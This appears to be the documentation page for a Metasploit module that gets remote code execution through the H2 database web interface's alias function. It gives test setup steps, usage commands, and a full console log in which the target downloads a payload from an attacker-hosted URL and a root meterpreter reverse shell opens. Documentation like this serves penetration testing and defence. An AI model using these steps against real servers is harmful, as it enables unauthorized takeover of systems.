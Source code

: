 ## Vulnerable Application

The H2 database contains an alias function which allows for arbitrary Java code to be used.
This functionality can be abused to create an exec functionality to pull our payload down
and execute it. H2's web interface contains restricts MANY characters, so injecting a payload
directly is not favorable. A valid database connection is required. If the database engine
was configured to allow creation of databases, the module default can be used which
utilizes an in memory database. Some Docker instances of H2 don't allow writing to
folders such as /tmp, so we default to writing to the working directory of the software.

This module was tested against H2 version 2.1.214, 2.0.204, 1.4.199 (version detection fails)

### Application Install

The `ifNotExists` option is used to allow for creation of new databases from the web interface. This substantially speeds
up testing of the exploit.

```
docker run -d -p 1521:1521 -p 81:81 -v /path/to/local/data_dir:/opt/h2-data -e H2_OPTIONS=-ifNotExists --name=MyH2Instance oscarfonts/h2
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/h2_webinterface_rce`
1. Do: `set rhosts [ip]`
1. Do: `set rport [port]`
1. Do: `run`
1. You should get a shell.

## Options

### GETVERSION

Will retrieve the version of the server. Most likely only works on 2.0.0+. Defaults to `true`

## Scenarios

### H2 Version 2.1.214 from Docker

```
msf6 > use exploit/linux/http/h2_webinterface_rce
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/h2_webinterface_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/h2_webinterface_rce) > set rport 81
rport => 81
msf6 exploit(linux/http/h2_webinterface_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/h2_webinterface_rce) > set lhost 111.111.11.111
lhost => 111.111.11.111
msf6 exploit(linux/http/h2_webinterface_rce) > set srvhost 111.111.11.111
srvhost => 111.111.11.111
msf6 exploit(linux/http/h2_webinterface_rce) > exploit

[*] Started reverse TCP handler on 111.111.11.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Obtaining jsessionid (cookie equivalent)
[+] jsessionid (cookie equivalent): ec97655f1aa8e1132fd8bd0e5581d9f0
[*] Detected autofilled DB: jdbc:h2:mem:
[+] The target is vulnerable. 127.0.0.1:81 - H2 web interface found, and database connection successful
[*] Obtaining jsessionid (cookie equivalent)
[+] jsessionid (cookie equivalent): 9828fc9f6bd0de76e0c88f44a07fc7bb
[+] H2 Version detected: 2.1.214
[*] Using URL: http://111.111.11.111:8080/D1OHj7
[*] Saving payload as AYZER67Th.sh
[*] Attempting to execute payload retrieval
[+] Received payload request
[*] Sending stage (24772 bytes) to 222.222.2.2
[*] Meterpreter session 1 opened (111.111.11.111:4444 -> 222.222.2.2:43968) at 2023-07-27 16:44:03 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
```
